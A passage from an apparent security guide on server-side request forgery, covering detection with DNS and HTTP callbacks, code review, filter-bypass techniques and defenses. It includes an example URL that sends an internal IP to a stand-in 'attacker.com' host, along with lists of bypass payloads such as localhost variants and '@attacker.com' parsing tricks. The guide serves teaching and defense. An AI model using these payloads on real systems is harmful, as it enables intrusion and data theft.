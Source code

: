     * **DNS Interaction:** Try to force the server to resolve a domain you control (e.g., `http://attacker.com/internal_path?data=internal_ip.attacker.com`). Monitor your DNS logs for queries from the target server's IP.
    * **HTTP/HTTPS Callback:** Host a server you control (e.g., using `ngrok`, `Burp Collaborator`, or a simple listener) and try to make the target server request a resource from your server. Check your server's access logs.

#### **2. White-box Testing / Code Review (With Source Code Access)**

* **Identify Outbound Request Functions:** Review the codebase for functions or libraries that make outbound network requests (e.g., `requests` library in Python, `HttpClient` in Java, `curl` functions in PHP, `fetch` in Node.js).
* **Trace User Input:** Follow the data flow to see if user-supplied input directly or indirectly influences the URL argument of these outbound request functions.
* **Analyze Validation Logic:** Scrutinize any URL validation logic. Look for blacklists (which are often bypassable), incomplete parsing (e.g., only validating the scheme but not the host), or logical flaws.

### **Bypass Techniques (Advanced SSRF Exploitation)**

Even with filtering in place, attackers employ various techniques to bypass SSRF defenses.

* **Whitelist Bypass Techniques:** These are used when the server only allows requests to a specific set of trusted domains.
    * **URL Parsing Inconsistencies:** Different URL parsers (browser vs. server-side library) might interpret URLs differently.
        * `http://allowed.com@attacker.com/`: Some parsers might see `allowed.com` as the host, while others correctly identify `attacker.com`.
        * `http://allowed.com:80@attacker.com/`: Similar to above, but with port.
        * `http://allowed.com/../attacker.com/`: Path traversal on the hostname.
    * **URL Shorteners/Redirects:** If the server fetches a shortened URL, and the URL shortener redirects to an internal IP.
    * **DNS Rebinding Attacks:** The server resolves a domain to an allowed external IP, but during a second DNS lookup (due to keep-alive connections), the DNS entry is changed to point to an internal IP.
    * **IPv6 vs. IPv4:** If only IPv4 is filtered, an attacker might use an IPv6 address (e.g., `[::1]` for `localhost`) to bypass the filter.
    * **Encoding Tricks:** Double URL encoding (`%250a`), using null bytes (`%00`) or line feeds (`%0a`) to trick parsers.
* **Blacklist Bypass Techniques:** These are less robust but commonly attempted.
    * Using variations of `localhost`: `127.0.0.1`, `[::]`, `[::1]`, `0`, `0.0.0.0`, `127.0.0.1.xip.io`.
    * Using redirectors on allowed external sites.
    * Embedding blocked keywords in other parts of the URL.

### **Defense/Prevention Strategies**

Preventing SSRF requires a strict, layered approach to URL validation and network segmentation.

1.  **Whitelist URLs/IPs (Most Effective):** Instead of blacklisting known malicious IPs/domains, **strictly whitelist only the specific domains or IP addresses that the server is allowed to communicate with.** This is a positive security model.
2.  **Validate All URL Components:** Parse and validate the scheme, host, port, and path of any user-supplied URL.
    * **Scheme:** Allow only `http` and `https`. Block `file`, `gopher`, `dict`, `ftp`, etc.
    * **Host:** Resolve the hostname to an IP address and ensure it is not a private/internal IP address.
    * **Port:** Restrict allowed ports.
3.  **Disable Redirects:** Configure the server's HTTP client not to follow redirects automatically. If redirects are necessary, manually validate the redirected URL.
4.  **Do Not Send Raw Responses:** Filter or sanitize the server's response before sending it back to the client. Avoid simply proxying the raw response, as it might contain sensitive information.